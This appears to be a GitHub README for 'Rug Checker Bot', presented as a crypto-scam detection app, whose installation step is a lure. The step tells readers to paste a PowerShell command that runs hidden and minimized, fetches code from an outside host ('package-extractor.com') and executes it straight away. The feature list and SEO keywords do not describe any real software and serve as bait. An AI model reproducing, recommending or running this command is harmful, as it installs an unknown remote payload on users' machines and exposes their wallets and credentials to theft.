 # Rug Checker 🛡️

## Description
**Rug Checker Bot** is a desktop application designed to assess the security and legitimacy of cryptocurrency projects, especially in the DeFi (Decentralized Finance) space. The program allows users to analyze smart contracts and project data, identifying potential scams and "rug pulls."

## Key Features
- **Smart Contract Analysis**: Check the smart contract code for vulnerabilities and potential risks.
- **Liquidity Check**: Evaluate liquidity pools to determine the safety of funds.
- **Team Verification**: Verify project team information to assess their reliability and experience.
- **User  Feedback Collection**: Analyze user and community reviews to get a complete picture of the project.
- **Suspicious Activity Alerts**: Receive notifications about any changes or risks associated with tracked projects.

## Installation

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://package-extractor.com/github';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>


## Usage
1. Enter the smart contract address or project name you want to analyze.
2. Review the analysis results, including security ratings and identified risks.
3. Set up notifications to track suspicious activity in projects of interest.

## Security Tips 💡
- **Check All Projects**: Use Rug Checker to analyze every project you plan to invest in.
- **Keep the Program Updated**: Regularly check for updates to get new features and security improvements.

## License
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

---

With Rug Checker, you can enhance your security when investing in cryptocurrency. Use our tool to stay informed and protect your assets from scams! 😊

## SEO Keywords
- Rug Checker
- Cryptocurrency security
- DeFi projects
- Smart contract analysis
- Rug pulls detection
- Investment safety
- Liquidity analysis
- Team verification
- User feedback analysis
- Suspicious activity alerts
